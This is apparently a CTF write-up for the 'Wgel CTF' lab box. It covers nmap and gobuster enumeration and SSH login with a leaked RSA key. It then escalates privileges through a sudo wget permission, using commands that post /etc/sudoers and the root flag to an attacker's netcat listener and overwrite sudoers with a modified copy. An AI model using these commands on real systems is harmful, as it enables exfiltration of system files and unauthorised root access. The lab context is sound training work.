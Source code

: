 ```yaml
---
layout: post
permalink: /posts/thm/wgel-ctf
title: "Wgel CTF"
---
```


Have fun with this easy box.

Let's begin our enumeration with nmap.

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/wgel-ctf/nmap.png)

As we can see there are two open ports 22 SSH and 80 HTTP. Go and visit the website.

![website](/assets/images/thm/wgel-ctf/website.png)

It's Apache default page. Let's run directory scan to find any hidden directories.

```
gobuster dir -u http://10.10.22.10 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/images/thm/wgel-ctf/gobuster-sitemap.png)

We have found `sitemap` directory. Let's visit it.

![sitemap](/assets/images/thm/wgel-ctf/sitemap.png)

I tried some additional directory search.

```
gobuster dir -u http://10.10.22.10/sitemap -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```

![gobuster-sitemap](/assets/images/thm/wgel-ctf/gobuster-sitemap.png)

hmm this `.ssh` directory looks suspicious

![ssh](/assets/images/thm/wgel-ctf/ssh.png)

Now we have rsa key but we need username as well. Go back to the Apache default page and look the source code.

![source](/assets/images/thm/wgel-ctf/source.png)

Oh... hello Jessie

```
ssh -i id_rsa jessie@10.10.22.10
```

![jessie](/assets/images/thm/wgel-ctf/jessie.png)

We have succefully logged as jessie. Look through the jessie directory and find the user flag. </br>

Once we find the user flag we need to escalate our privileges. Let's check what we can find with `sudo -l` command

![sudo-l](/assets/images/thm/wgel-ctf/sudo-l.png)

Our user is able to run `wget` command as root. Go and visit `https://gtfobins.github.io/gtfobins/wget/` to see how we can take and advantage of the command. </br>

As we know the user flag is named user_flag.txt so probably root flag is named root_flag.txt which means we should be able to read the file with the following command

```
sudo wget -i /root/root_flag.txt
```

![wget-read](/assets/images/thm/wgel-ctf/wget-read.png)

I also tried to upload the file on my machine. First set listener.

```
nc -lvnp <PORT>
```

```
sudo wget --post-file=/root/root_flag.txt http://<YOUR_MACHINE>:<PORT>
```

Unfortunately both of the tries didn't work for me. Not sure why...

Another thing that we can try is to recieve `/etc/sudoers` and change the permission of our user to be able to execute any sudo commands. Using wget we'll be able to upload and replace the original file with our manipuleted one. Let's try it.

Start listener on your machine

```
nc -lvnp <PORT>
```

```
sudo wget --post-file=/etc/sudoers <YOUR_IP>:<PORT>
```

![sudoers](/assets/images/thm/wgel-ctf/sudoers.png)

Now we have the sudoers content, create sudoers file and change the jessie rights to be able to execute all sudo commands without a password.

![sudoers-change](/assets/images/thm/wgel-ctf/sudoers-change.png)

Now start python server on your machine

```
python3 -m http.server
```

On the target machine navigate to `/etc` and download the new sudoers file

```
sudo wget http://<YOUR_IP>:<PORT>/sudoers --output-document=sudoers
```

or

```
sudo wget http://<YOUR_IP>:<PORT>/sudoers -O sudoers
```

Check the rights

```
sudo -l
```

![check](/assets/images/thm/wgel-ctf/check.png)

Now we are able to run any command as root. Let's try it out.

```
sudo /bin/bash
```
![root](/assets/images/thm/wgel-ctf/root.png)